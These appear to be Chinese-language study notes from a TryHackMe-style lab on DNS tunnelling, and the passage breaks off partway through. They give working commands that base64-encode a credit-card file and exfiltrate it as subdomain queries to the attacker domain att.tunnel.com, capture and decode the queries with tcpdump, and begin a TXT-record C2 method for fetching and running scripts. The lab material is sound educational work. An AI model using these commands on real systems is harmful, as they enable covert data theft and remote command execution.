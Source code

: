     - **方法**: 将待窃取数据编码 (如 Base64)，分割成符合 DNS 标签长度限制的块，每块作为子域名的一部分，向攻击者控制的 NS 服务器发起 DNS 查询。攻击者在其 NS 服务器上抓取并解析这些查询来重组数据。
    - **步骤**:
        1. **攻击者机器监听 DNS 查询**:
            
            Bash
            
            ```
            thm@attacker$ sudo tcpdump -i eth0 udp port 53 -A -v
            # -A: 以ASCII打印每个包的内容
            ```
            
        2. **受害者机器准备并发送数据**: 假设数据在 `task9/credit.txt`，攻击者的 NS 子域为 `att.tunnel.com`。
            - **将数据编码并格式化为子域名**:
                
                Bash
                
                ```
                # 示例：将每18个Base64字符作为一个标签，并附加到NS子域
                thm@victim2$ DATA_TO_SEND=$(cat task9/credit.txt | base64 | tr -d "\n")
                thm@victim2$ echo $DATA_TO_SEND | fold -w 18 | sed 's/.*/&./' | tr -d "\n" | sed 's/$/att.tunnel.com/' | awk '{print "dig +short " $1 " A"}' | bash
                ```
                
                - `tr -d "\n"`: 移除 Base64 输出中的换行符。
                - `fold -w 18`: 每 18 个字符换行 (分割块)。
                - `sed 's/.*/&./'`: 每块后加点。
                - `tr -d "\n"`: 再次移除分割产生的换行符，形成长域名。
                - `sed 's/$/att.tunnel.com/'`: 附加权威NS子域名。
                - `awk '{print "dig +short " $1 " A"}' | bash`: 为每个构造的域名执行 `dig` 查询。
        3. **攻击者机器提取数据**: 从 `tcpdump` 的输出中，提取 DNS 查询的域名部分，去掉NS子域名后缀，拼接各数据块，然后进行 Base64 解码。
            
            Bash
            
            ```
            # 示例手动提取和解码
            thm@attacker$ echo "<copied_long_subdomain_string_from_tcpdump_without_att.tunnel.com>" | tr -d "." | base64 -d
            ```
            
- **3. C2 通信 (通过 TXT 记录)**:
    - **方法**: 攻击者将命令或脚本内容 (Base64编码后) 存放在其控制域名的 TXT 记录中。受害者机器查询该 TXT 记录，获取内容，解码并执行。
    - **步骤**:
        1. **攻击者准备脚本并设置 TXT 记录**:
            - 创建脚本 (如 `/tmp/script.sh`): `#!/bin/bash\nping -c 1 test.thm.com`
            - Base64 编码脚本: `thm@victim2$ cat /tmp/script.sh | base64` (得到如 `IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo=`)
            - 通过 DNS 配置界面，为 `script.tunnel.com` (示例) 添加 TXT 记录，值为上述 Base64 字符串。
        2. **受害者机器查询、解码并执行**:
            
            Bash
            